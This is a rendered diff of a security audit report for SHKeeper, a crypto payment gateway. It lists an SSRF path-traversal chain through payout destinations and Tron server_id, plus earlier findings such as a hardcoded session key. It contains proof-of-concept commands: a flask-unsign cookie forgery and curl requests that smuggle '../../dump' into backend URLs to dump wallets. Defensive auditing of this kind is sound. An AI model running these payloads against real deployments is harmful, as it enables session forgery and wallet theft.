

Before and after one commit to testenv-official/test-project, a Markdown page: SECURITY_AUDIT.md, the part around one of its changes. Shown at 97% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/SECURITY_AUDIT.md
+++ b/SECURITY_AUDIT.md
@@ -1,59 +1,64 @@
 # Security Audit Report — SHKeeper
 
 **Date:** 2026-02-23
-**Scope:** Full source code review of shkeeper application
-**Severity Ratings:** CRITICAL / HIGH / MEDIUM
+**Scope:** Full source code review — code-level vulnerabilities only (not config/defaults)
 
 ---
 
-## CRITICAL FINDINGS
+## CRITICAL — SSRF via Payout Destination Path Traversal
 
-### 1. Session Forgery via Hardcoded SECRET_KEY
+**Affects:** ALL non-BTC-like crypto backends (ETH, TRX, SOL, XRP, BNB, MATIC, AVAX, ARB, OP, LTC)
 
-- **File:** `shkeeper/__init__.py:60`
-- **Code:** `SECRET_KEY="dev"`
-- **Impact:** Full authentication bypass including 2FA. An attacker can forge admin session cookies.
-- **Proof:** `flask-unsign --sign --cookie '{"user_id": 1}' --secret 'dev'`
-- **Fix:** Generate a cryptographically random SECRET_KEY and store it outside source code.
+User-controlled `destination` from payout JSON body is injected directly into internal backend HTTP request URLs with zero sanitization.
 
-### 2. SSRF via callback_url
+**Chain:**
 
-- **Files:** `shkeeper/models.py:429`, `shkeeper/callback.py:41-46, 118-123`
-- **Impact:** Server makes HTTP requests to attacker-controlled or internal URLs. Cloud metadata theft, internal network scanning.
-- **Vector:** `callback_url` from `payment_request` API is stored and used in `requests.post()` without host validation.
-- **Fix:** Validate callback_url against an allowlist or block private/internal IP ranges.
+```
+api_v1.py:402  →  req = request.get_json(force=True)
+payout_service.py:58-59  →  crypto.mkpayout(req["destination"], ...)
+ethereum.py:129  →  f"http://{self.gethost()}/{self.crypto}/payout/{destination}/{amount}"
+```
 
-### 3. Wallet Decryption Key Exposed via API
+Same pattern in: `tron_token.py:134`, `solana.py:34`, `xrp.py:36`, `bnb.py:34`, `polygon.py:34`, `avalanche.py:34`, `arbitrum.py:34`, `optimism.py:34`, `ltc.py:126`, `btc.py:128`
 
-- **File:** `shkeeper/api_v1.py:537-541`
-- **Code:** `"key": wallet_encryption.key()` returned in plaintext
-- **Impact:** Full wallet compromise. Attacker obtains encryption key for all wallet data.
-- **Prerequisite:** Backend key header (defaults to "shkeeper")
-- **Fix:** Never expose the encryption key via API. Remove or restrict this endpoint.
+**Proof:**
 
-### 4. Default Backend Key Bypasses Authentication
+```bash
+curl -X POST http://target:5000/api/v1/ETH/payout \
+  -u admin:password \
+  -H "Content-Type: application/json" \
+  -d '{"destination":"../../dump","amount":"1","fee":"1"}'
+```
 
-- **File:** `shkeeper/api_v1.py:414, 445`
-- **Code:** `environ.get("SHKEEPER_BTC_BACKEND_KEY", "shkeeper")`
-- **Impact:** Unauthenticated access to walletnotify (inject fake transactions), payoutnotify, and decrypt endpoints.
-- **Fix:** Require explicit configuration with no default fallback. Fail closed if not set.
+This builds the internal URL:
+```
+http://ethereum-shkeeper:6000/ETH/payout/../../dump/1
+```
+
+Python `requests` normalizes this to:
+```
+http://ethereum-shkeeper:6000/dump/1
+```
+
+The request hits the `/dump` endpoint on the backend with the backend's auth credentials attached — dumps the wallet. Any backend endpoint is reachable via path traversal.
 
 ---
 
-## HIGH FINDINGS
+## CRITICAL — SSRF via Tron Multiserver server_id
 
-### 5. Mass Assignment in Exchange Rate Update
+**File:** `wallet.py:463` → `tron_token.py:162-165`
 
-- **File:** `shkeeper/wallet.py:196-213`
-- **Impact:** Arbitrary database column writes on ExchangeRate model via crafted form fields.
-- **Vector:** `rates__<symbol>__<any_column>` form fields passed directly to SQLAlchemy `.update()`.
-- **Fix:** Whitelist allowed fields before passing to `.update()`.
+```python
+# wallet.py:463 — server_id from query string, no validation
+any_tron_crypto.multiserver_set_server(request.args["server_id"])
 
-### 6. No CSRF Protection
+# tron_token.py:163 — injected into URL
+f"http://{self.gethost()}/{self.crypto}/multiserver/change/{server_id}"
+```
 
-- **Impact:** All state-changing POST endpoints vulnerable to cross-site request forgery.
-- **Verification:** Zero results searching for csrf, CSRFProtect, WTF, csrf_token.
-- **Fix:** Implement Flask-WTF CSRF protection.
+**Proof:**
 
-### 7. No Brute Force Protection on Login/2FA
+```
+POST /parts/tron-multiserver?server_id=../../dump
+```
 
````
Also changed, not shown: other parts of SECURITY_AUDIT.md (+215 -27 lines).
